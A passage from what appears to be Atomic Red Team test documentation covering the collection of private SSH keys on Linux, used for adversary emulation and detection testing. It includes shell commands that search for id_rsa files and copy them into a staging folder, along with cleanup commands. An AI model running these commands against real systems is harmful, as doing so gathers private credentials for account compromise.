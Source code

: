 
#### Attack Commands: Run with `sh`! 


```sh
find #{search_path} -name id_rsa 2>/dev/null >> #{output_file}
exit 0
```

#### Cleanup Commands:
```sh
rm #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP
Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux


**auto_generated_guid:** 7c247dc7-5128-4643-907b-73a76d9135c3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | ~|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec cp --parents {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```





<br/>
<br/>
